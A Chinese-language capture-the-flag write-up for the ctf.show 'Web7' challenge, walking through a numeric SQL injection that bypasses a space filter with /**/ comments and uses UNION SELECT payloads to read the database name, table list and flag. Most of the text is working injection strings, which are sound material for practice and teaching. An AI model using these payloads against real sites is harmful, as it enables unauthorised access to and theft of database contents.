 ```yaml
---
title: "Web7  @WEB"
date: 2023-07-22
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 sql注入，通过恒成立判断为数值型注入且过滤了空格，空格用/**/代替即可

```sql
id=-1/**/or/**/true
```

![](/ctf.show/12/1.webp)

1、页面存在显示位，能够直接将结果回显在web界面，使用联合注入进行查询，查询数据库名

```sql
id=-1/**/union/**/select/**/1,database(),3
```

![](/ctf.show/12/2.webp)

2、查询数据库中的表

```sql
id=-1/**/union/**/select/**/1,(select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema="web7"),3
```

![](/ctf.show/12/3.webp)

3、查询表flag中的内容,成功拿到flag

```sql
id=-1/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3
```

![](/ctf.show/12/4.webp)